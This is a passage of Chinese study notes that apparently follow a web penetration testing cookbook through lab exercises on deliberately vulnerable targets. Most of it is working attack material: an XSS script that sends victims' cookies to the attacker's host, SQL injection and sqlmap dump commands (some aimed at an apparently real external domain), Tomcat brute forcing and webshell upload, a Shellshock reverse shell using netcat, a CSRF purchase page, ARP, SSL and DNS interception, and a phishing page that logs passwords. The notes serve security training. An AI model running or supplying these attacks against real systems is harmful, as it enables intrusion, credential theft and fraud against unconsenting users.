   这个脚本收集有XSS脚本发送的cookie，并保存在Kali中/tmp/systemd-private-c9d63bc3cff94c9594a5babcad3aba1c-apache2.service-9irPvW/tmp/cookie_data.txt，可以在/tmp文件夹下运行`find -name cookie_data.txt`搜索该文件。

### 步骤

1. 打开Firefox浏览器，访问[owaspbwa][]/peruggia/，登录admin/admin，然后点击`comment on this picture`，输入
   
      ```javascript
      <script>
      var xmlHttp = new XMLHttpRequest();
      xmlHttp.open( "GET", "http://192.168.254.130/savecookie.php?cookie=" +
      document.cookie, true );
      xmlHttp.send( null );
      </script>
      ```
   
   注意IP地址是自己Kali的IP地址，点击POST，可以页面源代码中看到提交的脚本，同时页面会执行我们的脚本。
   
2. 打开OWASP Mantra浏览器，访问访问[owaspbwa][]/peruggia/，登录admin/admin，可以在cookie_data.txt文件中看到
   
   
   
   
   
3. 打开Firefox，登出logout，配置代理，使用burp拦截数据包
   
   
   
   
   修改cookie值为PHPSESSID=vqjb9f6ke0su4345tkr26va6r1; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada，重新发包
   
   
   
   
   
   可以看到浏览器成功登录。

### 思考

1. XSS漏洞需要页面可以显示用户输入
2. 需要一台服务器放置获取cookie的脚本


## 6.7 逐步执行基本的SQL注入

dvwa | sql injection

### 判断是否存在SQL注入

在正常输入值的后面加上`'`，`or 1=1`，`and 1=2`之类的测试语句，根据结果判断是否存在SQL注入。注意闭合`'`，可以使用`#`屏蔽后续语句。

### 获取信息

输入 `1' order by 1#`和 `1' order by 2#`时都返回正常，当输入 `1' order by 3#`时，返回错误，可知后台select查询语句的列数为2。

union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同。

+ 获取数据库名字 `1' union select 1, database() #`，结果是dvwa
+ 获取当前用户 `1' union select 1, user() #`
+ 获取数据库版本 `1' union select 1, @@version #`
+ 获取操作系统 `1' union select 1,  #`
+ 获取mysql数据库表名 `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`，dvwa 数据库有两个数据表，分别是 guestbook 和 users。
+ 获取表中字段名：`1′ union select 1,group_concat(column_name) from information_schema.columns where table_name='users'`，users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。
+ 下载数据 `1′ union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`

### 一些疑惑

+ `' or 1=1 order by 3 --'`可以正确执行（`--`后面没有空格）
+ `' or 1=1 order by 3 -- '`服务器报错（`--`后面有空格）
+ `1‘ order by 3`可以正确执行（1后面的引号是中文引号）


## 6.8 使用SQLMap发现和利用SQL注入

SQLMap 是个命令行工具，包含在 Kali 中，可以帮我们自动化检测和利用 SQL 注入，它带有多种技巧，并支持多种数据库。

### GET注入

**检查注入点**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details"`

**暴所有数据库的信息**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --dbs`

**爆当前数据库的信息**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --current-db`

**指定库名列出所有表**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp --tables `

**指定库名表名列出所有字段**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts --columns`

**指定库名表名下载出指定字段内容**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts -C username password mysignature -dump`

### POST注入

#### 自动填写表单

**判断是否有post注入**

`Csqlmap -u http://vip.fj0730.cn/login.asp --forms`

**查找数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`

**查找当前数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`

查找表名、字段名、爆出数据与GET注入一致

#### sqlmap结合burp

1. 抓包
2. 全选抓的数据包（RAW页面的内容），右键 | 保存到1.txt文件
3. `sqlmap -r '/home/1.txt'`
4. 查找当前数据库 `sqlmap -r '/home/1.txt' --current-db`
5. 剩下的操作与之前的一致

#### 指定表单注入

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`


### sqlmap选项

`--batch` 永远不要求用户输入

`--sqlmap-shell` 提示输入的交互式sqlmap shell

`--sql-shell` 提供SQL shell，可以执行SQL查询

`--os-shell` 提供服务器系统cmd的执行权限，成功的条件较为苛刻，暂未研究明白，参见[获取os-shell][https://zhuanlan.zhihu.com/p/58007573]。

## 6.9 使用Metasploit攻击Tomcat的密码

1. 在我们开始使用 Metasploit 之前,我们需要在 root 终端中开启数据库服务

   `service postgresql start`

2. 启动Metasploit控制台

   `msfconsole`

3. 加载模块

   `use auxiliary/scanner/http/tomcat_mgr_login`

4. 查看参数

   `show options`

5. 设置目标主机

   `set rhosts 192.168.2.167`

6. 设置线程数、爆破速度

   `set threads 5`, `set bruteforce_speed 3`

7. 执行攻击

   `run`

8. 其他参数

   BLANK_PASSWORDS : 对每个尝试的用户添加空密码测试。
   PASSWORD : 如果我们打算测试多个用户的单一密码,或者添加列表中没有包含的项目,这就很实用。
   PASS_FILE : 用于测试的密码列表。
   Proxies : 如果我们需要通过代理来访问我们的目标,或者避免检测,就用这个选项。
   RHOSTS : 单个主机,或多个(使用空格分隔),或者我们想要测试的主机列表文件
   ( /path/to/file/with/hosts )。
   RPORT : Tomcat 所使用的 TCP 端口。
   STOP_ON_SUCCESS : 发现有效密码之后停止尝试。
   TARGERURI : 主机中管理器应用的位置。
   USERNAME: 指定特殊的用户名来测试,它可以被单独测试,或者添加到定义在 USER_FILE 的列表中。
   USER_PASS_FILE :包含要被测试的“用户名 密码”组合的文件。USER_AS_PASS :将每个列表中的用户名作为密码尝试。

## 6.10 使用Tomcat管理器来执行代码

上一节使用Metasploit获得了Tomcat管理器的用户名/口令，可以登录管理器并上传新的应用

管理器地址：`http://192.168.2.167:8080/manager/html`，使用用户名/口令登录。

进入管理器后，找到`WAR file to deploy`并点击`Browse`按钮。

Kali在/usr/share/laudanum包含webshell，上传/usr/share/laudanum/jsp/cmd.war

确保存在新应用cmd

访问`http://192.168.2.167:8080/cmd/cmd.jsp`

# 第七章 高级利用

## 7.1 在Exploit-DB中搜索Web服务器的漏洞

### 准备

ExploitDB是一个面向全世界黑客的漏洞提交平台，该平台会公布最新漏洞的相关情况，这些可以帮助企业改善公司的安全状况，同时也以帮助安全研究者和渗透测试工程师更好的进行安全测试工作。Exploit-DB提供一整套庞大的归档体系，其中涵盖了各类公开的攻击事件、漏洞报告、安全文章以及技术教程等资源。

可以在线查找漏洞代码，也可以使用`searchsploit`离线查找。

`searchsploit heartbleed` 查找到两个c代码，使用书中的编译方法`gcc 32791.c -o heartbleed -Wl,-Bstatic -lssl -Wl,-Bdynamic -lssl3 -lcrypto`总是失败，猜测原因应该是openssl的新版本的缘故。

## 7.2 利用Heartbleed漏洞

### 准备

下载Bee-box虚拟机，IP地址是`192.168.2.174`

### 步骤

1. 使用sslcan扫描Bee-Box的8443端口，`sslscan 192.168.2.174:8443`，奇怪的是没有heartbleed漏洞



使用nmap再此扫描`nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.2.174`，发现heartbleed漏洞



2. 打开msf，查找heartbleed模块`msf5 > search heartbleed`



3. 使用第1个模块`msf5 > use auxiliary/scanner/ssl/openssl_heartbleed`

4. 查看需要设置的选项 `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > show options`

5. 设置RHOSTS、RPORT

   ```bash
   msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.2.174
   
   ```

6. 设置verbose，这个设置要设置成true才能看到泄露的信息

   `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set verbose true`

7. 开始攻击

   `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > exploit`



可以看到有人正在登录，用户名和密码已泄漏。

### 说明

由于上一节中无法编译成功，本节heartbleed漏洞利用基于msf完成。

## 7.3 使用BeEF利用XSS

### 准备

进入/usr/share/beef-xss/运行`./beef`启动beef，若beef-xss未安装，执行`apt-get install beef-xss`，beef不允许使用默认的用户名/密码登录，需要修改配置文件/etc/beef-xss/config.yaml中的密码，然后就可以启动beef了。

访问<http://127.0.0.1:3000/ui/panel>并使用自己设置的用户名/口令登录。

### 步骤

1. 使用win7虚拟机（192.168.254.128）访问<http://192.168.2.167/dvwa/vulnerabilities/xss_s/>，添加评论，内容为`<script src="http://192.168.254.130:3000/hook.js"></script>`

2. 在kali虚拟机(192.168.254.130)访问<http://127.0.0.1:3000/ui/panel>，可以看到win7虚拟机的浏览器上线

   

3. 选中目标，在`commands | persistence | Man In The Browser `，点击运行，这个模块在用户点击链接时，向相同域发送AJAX请求，这个请求维持了钩子，也加载了新的页面，使得目标浏览器持续有效，直至受害者关闭目标网页。

4. 在Logs页面，可以看到受害者在浏览器中的操作，例如点击和输入。

   

5. 其他常用命令

   + `commands | Browser | Hooked Domain | Get Cookie`获取cookie

   + `social engineering | pretty theft` 社会工程工具，允许攻击者模拟Facebook、YouTube等应用登录页面，诱使受害者输入用户名/密码。
   
   + 打开摄像头
   
   + 提取浏览器中存储的用户名/口令
   + 将受害者浏览器作为代理

   
## 7.4 利用SQL盲注

书中介绍了利用burp | intruder 开展SQL盲注，较为繁琐，不如直接使用sqlmap。

## 7.5   使用SQLMAP获得数据库信息


## 7.6    执行CSRF攻击

**CSRF** 全称Cross-site request forgery，翻译过来就是，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其**点击**恶意链接或者**访问**包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。

CSRF攻击流程：

1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；

4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；

5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### 在WackoPicko应用上测试CSRF

1. 打开burp，设置浏览器代理。
2. 注册攻击用户user_attack，登录[owaspbwa][]/WackoPicko，完成一次购买图片的过程，利用burp分析购买过程的流量。



3. 攻击者上传一张图片，记录下地址栏中图片id=19。根据购买流量，构造如下html文件，存放在/var/www/html/wackopurchase.html。并移动Apache服务`service apache2 start`（这里将Kali机器作为恶意网站服务器）。

```html
<html>
<head></head>
<body onLoad='window.location="http://192.168.2.167/WackoPicko/cart/action.php?action=purchase";setTimeout("window.close;",1000)'>
<h1>Error 404: Not found</h1>
<iframe src="http://192.168.2.167/WackoPicko/cart/action.php?
action=add&picid=19">
<iframe src="http://192.168.2.167/WackoPicko/cart/review.php" >
<iframe src="http://192.168.2.167/WackoPicko/cart/confirm.php">
</iframe>
</iframe>
</iframe>
</body>
```

4. 在刚刚上传的图片下方添加如下评论，其中192.168.254.130是kali的ip地址。

```html
There is more pictures <a href="http://192.168.254.130/wackopurchase.html" target="_blank">this</a>
```

5. 注册受害者user_victim，浏览刚刚上传的图片，并点击评论中的链接，可以发现受害者购买了攻击者上传的图片并支付了15Tradebuxs。美中不足的是，购买成功后应该关闭购买页面，并显示404页面，实践中停留在了购买成功的页面。修改恶意网页代码，实现关闭购买页面功能。

```html
<html>
<head></head>
<body>


<h1>Error 404: Not found</h1>
</body>

```



### CSRF攻击的条件

1. 了解执行特殊操作所需的请求过程及参数；
2. 将请求过程自动化，并有方法诱使受害者访问恶意站点。


## 7.7 shellshock破壳漏洞利用

### shellshock漏洞

**复现**

在bash shell中执行

```bash
env x='() { :; }; echo vulnerable' bash -c "echo this is a test"
```

如果输出

```
vulnerable
this is a test
```

表示存在漏洞。这里`{ :; }`表示函数体为空。

**漏洞原因分析**

bash中存在一种使用环境变量定义函数的方法，如果环境变量的值以字符`(){`开头，这个变量会被当作一个导入的函数，这种函数定义只有在shell 启动时生效。

env命令代表“先设置环境变量，再运行后面的程序”。

bash漏洞是由于bash在处理含有函数定义诸如”`() { :; }`“的环境变量赋值的代码上存在设计缺陷，错误地将函数定义后面的字符串作为命令执行。

**影响范围**

bash版本低于4.3且支持向bash传递环境变量的程序均受影响，最典型的是bash写的CGI程序，客户端通过在请求字符串里加入构造的值，就可以轻松攻击运行CGI的服务器。

目前大多数的网站很少用CGI了，所以问题不算太大。但是有很多的网络设备，如路由器、交换机等都使用了Perl或者其他语言编写的CGI程序，只要是底层调用了bash，那么就爱存在风险。

任何已知程序，只要满足以下两个条件就可以被用来通过bash漏洞导致任意命令执行：

1、程序在某一时刻使用bash作为脚本解释器处理环境变量赋值； 2、环境变量赋值字符串的提交取决于用户输入。

### 漏洞利用

1. 登录bwapp，选择shellshock vulnerability(CGI)
2. 利用burp suite查看网络数据包



可以看到有个iframe调用了shell脚本，可能存在shellshock漏洞。

3. 将/bWAPP/cgi-bin/shellshock.sh请求发送到repeater，修改Referer内容为`() { :;}; echo "vulnerable:"`



可以看到响应多了一个协议头参数`vulnerable`，这是因为它将echo命令的输出集成到了HTTP协议头中。值得注意的是，`()`后面要有空格，`{`与`:`中间也要有空格。

4. 使用下面的命令重复上面的过程

`() { :;}; echo "vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`



5. 能够在远程服务器上执行命令，自然可以获得远程shell。在kali中打开终端，监听端口`nc -vlp 12345`。修改Referer的值为`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")`，可以看到反弹shell建立成功



Web 服务器中存在漏洞，因为 CGI 事先将请求的所有部分映射为环境变量,所以这个攻击通过User-Agent 或者 Accept-Language 也能工作。

# 第八章 中间人攻击

## 8.1 使用Ettercap执行ARP欺骗攻击

### 准备

地址解析协议(ARP)欺骗可能是最常见的 MITM 攻击。它基于一个事实，就是 ARP 并不验证系统所收到的响应。这就意味着,当 Alice 的电脑询问网络上的所有设备，“IP xxx.xxx.xxx.xxx 的机器的 MAC 地址是什么”时，它会信任从任何设备得到的答复。该设备可能是预期的服务器，也可能是不是。ARP 欺骗或毒化的工作方式是，发送大量 ARP 响应给通信的两端，告诉每一端攻击者的 MAC 地址对应它们另一端的 IP 地址。

win7虚拟机（192.168.254.128）作为客户端，Bee-box虚拟机（192.168.254.132）作为服务器，Kali虚拟机（192.168.254.130）作为中间人。

### 步骤

1. 在Kali 虚拟机上运行`ettercap -G`,打开图形界面ettercap



2. 选择网卡eth0，点击菜单栏中的对号，开始监听网卡eth0



3. 点击菜单栏中三个点一样的按钮，执行`Hosts | Scan for hosts`，再点击`Host Lists`按钮，列出发现的主机。



4. 选择`192.168.254.128`，再点击`Add to Target1`将其添加到target1，同理将`192.168.254.132`添加到target2
5. 设置好目标后，点击地球按钮，执行ARP poisoning，参数勾选sniff remote connections



6. 在win7虚拟机中访问<http://192.168.254.132/bWAPP>，输入用户名/密码，可以在ettercap中看到输入的内容，貌似Kali虚拟机中的浏览器也会打开win7虚拟机访问的页面。



## 8.2 使用Wireshark执行MITM以及捕获流量

kali虚拟机中的wireshark可以抓到其他虚拟机的ip数据

## 8.3修改服务器与客户端之间的数据

将修改规则写成脚本，并用Ettercap编译成过滤器，最后使用ettercap加载过滤器，即可修改中间数据。


## 8.4 SSL中间人攻击

### 准备

SSL中间人攻击需要的条件是，攻击者作为客户端和服务器之间的中间人，对客户端伪装成服务器，对服务器伪装成客户端，伪装服务器需要伪造证书。

首先使用openssl生成证书私钥，再生成私钥签名的证书。生成证书需要填一些证书颁发信息，可以随意。

```
openssl genrsa -out certauth.key 4096   生成证书私钥
openssl req -new -x509 -days 1096 -key certauth.key -out ca.crt
```

我们使用工具sslsplit开展中间人攻击，sslsplit使用8080、8443端口，因此需要将中间人的流量重定向到8080、8443端口。

```
echo 1 > /proc/sys/net/ipv4/ip_forwar		开启中间人系统的路由功能
iptables -t nat -L    						查看iptables的nat表中内容
iptables -t nat -L > iptables.nat.bkp.txt	备份nat表
iptables -t nat -F							清空nat表
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --toports
8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --toports
8443										建立PREROUTING重定向规则
```

开展ARP欺骗使Kali机器成为win7虚拟机（192.168.254.128）和网关(192.168.254.2)的中间人。

### 步骤

1. 创建目录用于存放sslsplit日志

```bash
mkdir /sslsplit
mkdir /sslsplit/logdir
```

2. 启动 SSLSplit:

```
sslsplit -D -l connections.log -j sslsplit/ -S sslsplit/logdir/ -k certauth.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

3. 将生成的证书ca.crt拷贝到win7虚拟机，安装到受信任根证书颁发机构
4. 在win7虚拟机中打开百度，并搜索hello，可以在sslsplit/logdir/中看到双方传输的信息，还有大量不可见数据包，主要是图片。



### 原理

**SSLSplit参数**

+ -D : 这是在前台运行 SSLSplit,并不是守护进程,并带有详细的输出。
+ -l connections.log : 这将每个连接的记录保存到当前目录的 connections.log 中。
+ -j /tmp/sslsplit : 这用于建立 jail directory 目录, /sslsplit 会作为root( chroot )包含 SSLSplit 的环境。
+ -S logdir : 这用于告诉 SSLSplit 将内容日志(所有请求和响应)保存到 logdir (在jail目
  录中)，并将数据保存到单独的文件中。
+ -k 和 -c : 这用于指明和充当 CA 时,SSLSplit 所使用的私钥和证书。
+ ssl 0.0.0.0 8443 : 这告诉 SSLSplit 在哪里监听 HTTPS(或者其它加密协议)连接。要记
  住这是我们在上一章中使用 iptables 从 443 转发的接口。
+ tcp 0.0.0.0 8080 : 这告诉 SSLSplit 在哪里监听 HTTP 连接。要记住这是我们在上一章中使用 iptables 从 80 转发的接口。

由于bee-box靶机上tls版本较低，使用sslsplit连接失败，因而对win7和网关开展中间人攻击，并在公网中测试。

浏览器不信任我们自己生成的证书，因而需要将证书安装到win7虚拟机中。

## 8.6 DNS劫持

### 步骤

1. 启动Kali机器的Apache服务，`service apache2 start`
2. 编辑/etc/ettercap/etter.dns，添加下面内容，所有 A 记录(地址记录)都解析到 192.168.254.130 ，这是我们 Kali的地址。

```
* A 192.168.254.130
```

3. 打开ettercap `ettercap -G`，对win7虚拟机（192.168.254.128）和网关（192.168.254.2）开展ARP欺骗，再选择`plugins | manage the plugins`，双击dns_spoof，执行dns欺骗攻击。



可以看到DNS劫持成功

4. 在win7虚拟机中打开http网页，可以发现网页已被劫持。由于kali中apache服务未搭建https服务，因而在客户机中打开https网页会报错。

### 原理

DNS劫持可以强制客户端浏览某个页面，可以用于web渗透。


# 第九章 客户端攻击

## 9.1 使用set创建密码收集器

社会工程工具包（social-engineertookit）SET是一套工具，为执行针对人性的攻击而设计。这类攻击,包括网络钓鱼、邮件群发、SMS、伪造无线接入点、恶意网站、感染性媒体,以及其它。

### 更新setoolkit

kali中setoolkit的版本是8.0.1不是最新版，更新方法

```
git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
cd setoolkit
pip3 install -r requirements.txt
python3 setup.py
```

可能会出现pip3：unknown command，安装pip3即可。

### 克隆站点，搜集信息

1. 启动setoolkit，`setoolkit`
2. 依次选择1 ( Social-Engineering Attacks ) | 2 （Website Attack Vectors）| 3（Credential Harvester Attack Method）| 3（Site Cloner）



会询问收集到的信息发送到哪个IP，这里输入kali虚拟机的ip地址192.168.254.130；接着会询问要克隆的URL，输入<http://192.168.2.167/dvwa/login.php>

3. 在win7虚拟机中访问http://192.168.254.130，总是显示Apache2 Debian Default Page，百思不得其解。在物理主机上访问http://192.168.254.130可以显示dvwa登录页面，输入用户名/口令，点击login，页面再次重定向到真正的dvwa页面，输入的用户名口令显示在了kali虚拟机中。

4. 按ctrl+c后，setoolkit提示了结果文件存放位置



5. 书中介绍的index.html和post.php并未找到。


## 9.2  使用保存的页面创建钓鱼网站

使用set仅仅复制登录界面，在正确输入密码后再次重定向到登录页面会使用户产生怀疑。本节使用wget保存的站点，几乎含有所有导航，在输入正确用户名/密码后会登录原始站点。

1. 使用wget保存站点

```bash
wget -r -P bodgeit_offline/ http://192.168.2.167/bodgeit/
```

2. 启动apache服务，`service apache2 start`，并将下载的站点复制到apache根目录，

```bash
cp -r bodgeit_offline/192.168.2.167/bodgeit/ /var/www/html/
```

3. vim修改/var/www/html/bodgeit/中的login.jsp文件，寻找下面的代码：

```html
<h3>Login</h3>
Please enter your credentials: <br/><br/>
<form method="POST">
```

修改为

```html
<h3>Login</h3>
Please enter your credentials: <br/><br/>
<form method="POST" action="post.php">
```

4. 在login.jsp相同目录下创建post.php文件，代码如下

```html
<?php
$file = 'passwords_C00kb00k.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
$username=$_POST["username"];
$password=$_POST["password"];
$submit="Login"; ?>
<body onload="frm1.submit.click()">
<form name="frm1" id="frm1" method="POST"
action="http://192.168.2.167/bodgeit/login.jsp">
<input type="hidden" value="<?php echo $username;?>" name ="username">
<input type="hidden" value="<?php echo $password;?>" name ="password">
<input type="submit" value="<?php echo $submit;?>" name ="submit">
</form>
</body>
```
Web 服务器运行在 www-data 用户下,所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。

5. 创建结果文件passwords_C00kb00k.txt，并修改权限

```
touch passwords_C00kb00k.txt
chown www-data passwords_C00kb00k.txt
```


6. 在win7虚拟机中访问http://192.168.254.130/bodgeit/login.jsp，输入用户名口令（user@mail.com/password），点击login，成功登录到了192.168.2.167/bodgeit。
7. 结果文件passwords_C00kb00k.txt中保存了捕获的用户名口令。

## 9.3 使用metasploit创建反向shell并捕获连接

使用metasploit生成木马可执行程序，诱导客户点击运行，本地metasploit即建立了反向shell。

## 9.4 使用metasploit的browser_autopwn2攻击客户端

利用browser_autopwn2执行攻击，可以获得cookie，浏览器版本等信息，并未发现特别厉害之处。

## 9.5 使用BeEF建立shell

win7虚拟机访问http://192.168.254.130:3000/demos/butcher/index.html，在kali虚拟机中打开beef面板（http://127.0.0.1:3000/ui/panel）。

执行攻击 Current Browser | Commands | Social Engineering |Firefox Extension (Bindshell)客户机没有反应，在kali中`nc 192.168.254.128`超时。

执行其他攻击是有结果的。


